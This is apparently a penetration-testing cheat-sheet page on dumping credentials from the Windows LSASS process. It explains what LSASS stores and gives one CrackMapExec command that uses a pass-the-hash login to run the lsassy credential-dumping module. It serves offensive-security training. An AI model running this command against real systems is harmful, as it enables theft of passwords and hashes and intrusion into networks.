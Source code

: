 # Dumping LSASS

<details>

<summary>What is LSASS ?</summary>

**L**ocal **S**ecurity **A**uthority **S**ubsystem **S**ervice (LSASS) is the process on Microsoft Windows that **handles all user authentication**, **password changes**, **creation of access tokens**, and **enforcement of security policies**.&#x20;

This means the **process stores multiple forms of hashed passwords**, and in some instances even stores plaintext user passwords.

</details>

```bash
cme smb $ip -u $local_admin -H $hash -M lsassy --local-auth
```

## More

{% embed url="https://pentestlab.blog/tag/lsass/" %}
